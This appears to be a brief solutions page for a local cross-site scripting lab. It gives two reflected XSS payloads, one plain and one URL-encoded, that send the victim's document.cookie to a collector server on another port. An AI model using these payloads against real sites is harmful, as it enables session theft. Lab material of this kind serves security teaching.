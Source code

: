 
# Solutions
1. `http://localhost:3000/?q=<img src=x onerror=this.src='http://localhost:3001/cookie?data='+document.cookie;>`

2.  encoded - `%3Cimg%20src%3Dx%20onerror%3D%22var%20img%20%3D%20document%2EcreateElement%28%27img%27%29%3B%20img%2Esrc%20%3D%20%27http%3A%2F%2Flocalhost%3A3001%2Fcookie%3Fdata%3D%27%20%2B%20document%2Ecookie%3B%22%3E
`

decoded - `<img src=x onerror="var img = document.createElement('img'); img.src = 'http://localhost:3001/cookie?data=' + document.cookie;">`
